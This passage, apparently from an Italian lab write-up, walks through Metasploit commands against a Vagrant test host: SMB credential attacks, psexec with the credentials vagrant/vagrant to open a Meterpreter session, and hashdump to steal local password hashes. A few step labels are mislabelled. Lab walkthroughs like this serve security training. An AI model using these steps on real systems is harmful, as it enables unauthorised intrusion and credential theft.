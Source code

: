 **5)Impostare la password**: ```set SMBPass vagrant```.

**6)Eseguire l'exploit**: Avviare l'attacco brute force utilizzando il comando: ```exploit```.

**RISULTATO**:Abbiamo ottenuto gli utenti locali SAM che possiamo salvare in un file *user.txt*.

#### Riferimenti:
https://www.hackingarticles.in/smb-penetration-testing-port-445/

## Esecuzione di Comandi da Remoto
Utilizzando le credenziali ottenute, abbiamo sfruttato un altro exploit per eseguire comandi da remoto e aprire una sessione Meterpreter, un potente payload di Metasploit che ci ha fornito accesso remoto al sistema.

**1)Aprire Metasploit**: Aprire il terminale e digitare il comando per avviare Metasploit:```msfconsole```.

**2)Caricare il modulo SMB enumusers Scanner**: Una volta aperto Metasploit, caricare il modulo: ```exploit/windows/smb/psexec```.

**3)Impostare l'host bersaglio (RHOSTS)**: Specificare l'indirizzo IP del sistema bersaglio: ```set RHOSTS 10.0.2.4```

**4)Impostare il nome utente**:```set SMBUser vagrant``` .

**5)Impostare la password**: ```set SMBPass vagrant```.

**6)Eseguire l'exploit**: Avviare l'attacco brute force utilizzando il comando: ```exploit```.

**RISULTATO**Abbiamo ottenuto una sessione meterpeter sulla macchina.

![The Markdown Mark](images/psexec.PNG) 

## Rubare le credenziali SAM
Una volta ottenuto l'accesso, abbiamo utilizzato l'estensione hashdump di Meterpreter per rubare gli hash delle password locali del sistema.
Digitare  ```hashdump``` nella sessione meterpreter e salvare le password su file credenzialiSAM.txt.
